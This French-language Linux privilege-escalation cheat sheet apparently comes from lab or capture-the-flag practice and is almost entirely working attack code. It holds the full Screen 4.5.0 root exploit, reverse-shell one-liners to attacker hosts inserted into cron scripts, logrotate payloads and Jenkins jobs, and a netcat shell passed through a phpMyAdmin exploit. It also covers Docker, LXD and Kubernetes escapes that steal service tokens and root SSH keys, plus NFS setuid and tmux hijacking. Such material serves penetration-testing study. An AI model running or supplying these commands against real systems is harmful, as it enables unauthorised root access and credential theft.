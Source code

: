 ### Vulnerable Services
> Exploiter des services vulnérables comme Screen 4.5.0

```bash
# Exploiter Screen 4.5.0
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
cd /etc
screen -D -m -L ld.so.preload echo -ne "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
```
### Cron Job Abuse
> Exploiter des tâches cron mal configurées

```bash
# Trouver des fichiers de backup script exécutés par cron
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

# Injecter un reverse shell dans un script cron
echo "bash -i >& /dev/tcp/10.10.14.3/443 0>&1" >> /dmz-backups/backup.sh
```
### Container Escape
> S'échapper de conteneurs mal configurés
#### LXC/LXD Escape
```bash
# Créer un conteneur qui monte le système de fichiers hôte
lxc init ubuntutemp privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
lxc start privesc
lxc exec privesc /bin/sh
```
#### Docker Escape
```bash
# Utiliser un socket Docker exposé
/tmp/docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem ubuntu
/tmp/docker -H unix:///app/docker.sock exec -it [CONTAINER_ID] /bin/bash
```
### Kubernetes Abuse
> Exploiter des clusters Kubernetes mal configurés

```bash
# Extraire des tokens Kubernetes
kubeletctl -i --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx > k8.token
kubeletctl --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx > ca.crt

# Vérifier les droits
export token=`cat k8.token`
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.10.11:6443 auth can-i --list

# Créer un pod privilégié
cat > privesc.yaml << EOF
apiVersion: v1
kind: Pod
metadata:
  name: privesc
  namespace: default
spec:
  containers:
  - name: privesc
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
       path: /
  automountServiceAccountToken: true
  hostNetwork: true
EOF

kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.10.11:6443 apply -f privesc.yaml
kubeletctl --server 10.129.10.11 exec "cat /root/root/.ssh/id_rsa" -p privesc -c privesc
```
### Logrotate Exploitation
> Exploiter logrotate pour élever les privilèges

```bash
# Compiler l'exploit logrotten
gcc logrotten.c -o logrotten

# Créer un payload reverse shell
echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload

# Déterminer l'option utilisée dans logrotate.conf
grep "create\|compress" /etc/logrotate.conf | grep -v "#"

# Exploiter
./logrotten -p ./payload /tmp/tmp.log
```
### NFS Privilege Escalation
> Exploiter des montages NFS avec no_root_squash

```bash
# Vérifier les montages NFS
showmount -e 10.129.2.12

# Créer un binaire setuid
cat << EOF > shell.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void) {
  setuid(0); setgid(0); system("/bin/bash");
}
EOF
gcc shell.c -o shell

# Monter le partage NFS et copier le binaire
sudo mount -t nfs 10.129.2.12:/tmp /mnt
cp shell /mnt
chmod u+s /mnt/shell

# Exécuter sur la cible
./shell
```
### Tmux Session Hijacking
> Détourner des sessions tmux avec des permissions faibles

```bash
# Chercher des processus tmux
ps aux | grep tmux

# Vérifier les permissions du socket
ls -la /shareds

# S'attacher à la session
tmux -S /shareds
```
## Techniques d'élévation de privilèges Linux dans des Box
### Exploitation de services web vulnérables
Exemple (Fired):
```bash
# Exploiter Openfire via un plugin malveillant
# Télécharger et installer un plugin webshell
# Exécuter des commandes via l'interface web
```
Exemple (Jordak):
```bash
# Exploiter Jorani v1 via CVE-2023-26469
# Utiliser un script d'exploitation pour obtenir RCE
```
### Exploitation de bases de données
Exemple (Shiftdel):
```bash
# Exploiter phpMyAdmin via CVE-2018-12613
python2 50457.py 192.168.57.174 8888 / wordpress ThinnerATheWaistline348 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.57 1234 >/tmp/f'
```
### Exploitation de Jenkins
Exemple (vmdak):
```bash
# Rediriger le port Jenkins local via SSH
ssh -L 9999:127.0.0.1:8080 vmdak@192.168.212.103

# Créer une tâche Jenkins avec un reverse shell
# Dans "Execute shell":
bash -c 'bash -i >& /dev/tcp/192.168.49.x/4444 0>&1'
```
### Exploitation de services RPC
Exemple (PC):
```bash
# Exploiter un service RPC vulnérable
python3 50983.py
```